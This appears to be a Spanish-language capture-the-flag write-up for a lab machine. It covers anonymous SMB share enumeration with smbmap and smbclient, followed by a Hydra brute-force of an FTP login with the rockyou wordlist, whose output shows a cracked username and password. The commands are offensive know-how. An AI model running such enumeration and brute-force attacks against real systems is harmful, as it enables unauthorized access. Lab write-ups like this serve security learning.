 
## Analisis 

Inicializamos la enumeración por el servicio SAMBA y notamos que solamente tenemos acceso como usuario nulo al directorio anonymous.

```bash
➜  content smbmap -H 192.168.56.14 -u null                   
[+] Guest session   	IP: 192.168.56.14:445	Name: 192.168.56.14                                     
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	anonymous                                         	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.5.16-Debian)
```

Al momento de conectarnos, descargamos el único archivo que se nos presenta.

```bash
➜  content smbmap -H 192.168.56.14 -u null                   
[+] Guest session   	IP: 192.168.56.14:445	Name: 192.168.56.14                                     
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	anonymous                                         	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.5.16-Debian)
➜  content smbclient //192.168.56.14/anonymous -U "null%null"
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul 18 11:30:09 2019
  ..                                  D        0  Tue Oct 31 02:23:05 2023
  backups                             D        0  Thu Jul 18 11:25:17 2019

		19728000 blocks of size 1024. 16296316 blocks available
smb: \> mget backups\log.txt 
Get file log.txt? y
Error opening local file backups/log.txt
smb: \> exit
```
En el archivlo log.txt nos brindan un usuario de sistema por lo que procedemos a ejercer fuerza bruta para conectarnos al servicio FTP, luego probamos si las credenciales se reutilizan para el servicio SSH.

```bash
➜  content hydra -l aeolus -P /usr/share/wordlists/rockyou.txt ftp://192.168.56.14 -t 64
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-31 07:47:35
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ftp://192.168.56.14:21/
[STATUS] 7343.00 tries/min, 7343 tries in 00:01h, 14337185 to do in 32:33h, 64 active
[STATUS] 7310.67 tries/min, 21932 tries in 00:03h, 14322596 to do in 32:40h, 64 active
[21][ftp] host: 192.168.56.14   login: aeolus   password: sergioteamo
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 35 final worker threads did not complete until end.
[ERROR] 35 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-31 07:51:03
```
